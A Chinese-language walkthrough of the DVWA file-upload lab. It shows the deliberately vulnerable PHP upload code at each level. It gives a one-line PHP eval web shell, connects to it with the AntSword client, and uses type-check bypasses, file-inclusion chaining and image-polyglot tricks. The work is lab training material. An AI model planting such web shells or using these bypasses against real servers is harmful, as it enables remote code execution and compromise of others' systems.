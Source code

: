 <center>File Upload文件上传</center>





[toc]







## File Upload文件上传

> 文件上传







### 1. low

> 低级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

> 中国蚁剑

```shell
# 下载
wget https://github.com/AntSwordProject/AntSword-Loader/releases/download/4.0.3/AntSword-Loader-v4.0.3-linux-x64.zip

# 解压
unzip AntSword-Loader-v4.0.3-linux-x64.zip

# 运行
./AntSword
```

> 没有做任何过滤，上传`一句话木马`

```php
<?php eval($_POST['cmd']); ?>
```

> 蚁剑连接:

```shell
url  =  木马地址
密码  =  cmd
```





### 2. medium

> 中级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

```

> 对上传文件进行限制。

* 方法一：用文件包含的漏洞+ 文件上传

```shell
1. burp 获取cookie 文件包含 填入 蚁剑中
PHPSESSID=5skbhhtisu1kf4vfe8jvh4a2l5; security=high

2. 输入url, low级别上传的木马
http://192.168.0.111:8000/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/info.php

3. 密码
cmd

4. 连接成功。
```

方法二：

> `只检查文件type,没有检查文件后缀的问题。type并不重要`

```shell
1. 修改木马为 .jpg  

2. 打开burp,文件改为2.php

3. 文件上传成功，蚁剑连接。
```





### 3. high

> 高级
>
> 代码

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {
```

> 开始 检查文件后缀了。
>
> `getimagesize`检查文件头

方法一：图片木马捆绑

```shell
# windown
copy hack.jpg/b + 1.php/a  3.jpg

# linux
cat hack.jpg 1.php > 3.jpg
```

> 图片和代码就被写入了，上传`3.jpg`

```shell
蚁剑连接木马 3.jpg

# 牛b
```

方法二：修改文件头 

```php
GIF98 
<?php eval($_POST['cmd']); ?>
```

> 上传成功`hackable/uploads/3.jpg `

```shell
http://192.168.0.111:8000/vulnerabilities/fi/?page=file:///var/www/html/hackable/uploads/3.jpg

# 密码
cmd
```



















